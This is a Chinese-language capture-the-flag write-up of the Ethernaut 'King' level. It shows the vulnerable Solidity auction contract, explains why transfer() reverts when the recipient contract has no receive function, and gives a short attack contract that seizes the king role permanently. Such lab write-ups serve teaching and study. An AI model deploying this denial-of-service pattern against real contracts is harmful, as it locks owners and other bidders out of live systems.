 ## Level_9.King

要求：

> 成为king，且在提交题目时，owner会再次尝试成为king，避免owner成功；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    // 收款时使用
    receive() external payable {
        // 需要携带的金额大于等于现有出价
        // 或者发送者是owner
        require(msg.value >= prize || msg.sender == owner);
        // 给之前的king转账
        payable(king).transfer(msg.value);
        // 更新king和最高出价
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

### 分析

合约类似一个拍卖系统，最高价者是这个合约的king，并且之前的king能获得新king的出价报酬；

首先就是想看看能不能获得` owner `，发现合约中并没有能够修改` owner `的地方；

这边也没什么可以溢出的地方；且提交题目时，` owner `会利用` msg.sender == owner `来重新成为` king `；

所以发送的金额再高也没啥用，` msg.value `、` owner `都失效了，看看` msg.sender `；

要是` king `是一个合约地址，且它没有` receive() `和` fallback() `，那调用` transfer() `不就会失败？这样` king `永远不会被修改了；

> 之前的笔记：
>
> 用法：`接收方地址.transfer(发送的ETH数额)`；
>
> - `transfer`的gas限制是2300，足够用于转账，前提是接收方的`fallback`和`receive`不能太复杂；
> - `transfer`如果转账失败，会自动`revert`交易（回滚交易）；

所以，我们只需部署一个无接受转账函数的合约，利用它往该合约转账相应金额成为` king `即可；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp {
    function getKing(address payable addr) public payable {
        // 使用call，以防对面的接收函数实现了复杂逻辑
        (bool success, )= addr.call{value:msg.value}("");
        require(success, "Fail");
    }
}
```

![image-20250105171117474](./assets/image-20250105171117474.png)

